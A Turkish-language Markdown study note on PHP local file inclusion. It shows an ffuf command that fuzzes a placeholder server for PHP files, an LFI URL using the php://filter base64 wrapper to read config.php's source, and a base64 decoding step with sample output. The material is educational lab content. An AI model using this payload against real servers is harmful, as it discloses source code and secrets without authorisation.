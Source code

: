 ```yaml
---
glightbox: true
icon: material/circle-small
---
```


# PHP Filters

## Fuzzing for PHP Files

```bash
ffuf -ic -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP_ADDRESS:PORT/FUZZ.php
```

```text title="Output"

...SNIP...

index                   [Status: 200, Size: 2652, Words: 690, Lines: 64]
config                  [Status: 302, Size: 0, Words: 1, Lines: 1]
```

!!! info "200"

    LFI uygulamasında 200 OK dışındaki yanıt kodlarını da (301, 302, 403, vs.) hesaba katmalıyız.

## Source Code Disclosure

Fuzzing sonrası elde edilen örnek bir PHP dosyasına (`config`) LFI saldırısı uygulamak için [PHP Base64 Conversion Filter](https://www.php.net/manual/en/filters.convert.php) kullanabiliriz:

* [x] Örneğin URL şu şekilde gözükebilir:

```text
http://SERVER_IP_ADDRESS:PORT/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

!!! info "Extension"

    URL sonunda bulunan ifadenin (`config`) ardına bilinçli olarak dosya uzantısı (`.php`) eklenmemiştir. Uzantının, sunucu tarafında otomatik olarak ekleneceği varsayılmıştır.

Kaynak kodu elde etmek için Base64 kodu çözülmelidir (tüm Base64 dizesini kopyalamak için sayfa kaynağı görüntülenebilir):

```bash
echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
```

```php title="Output"
...SNIP...

if ($_SERVER['REQUEST_METHOD'] == 'GET' && realpath(__FILE__) == realpath($_SERVER['SCRIPT_FILENAME'])) {
  header('HTTP/1.0 403 Forbidden', TRUE, 403);
  die(header('location: /index.php'));
}

...SNIP...
```
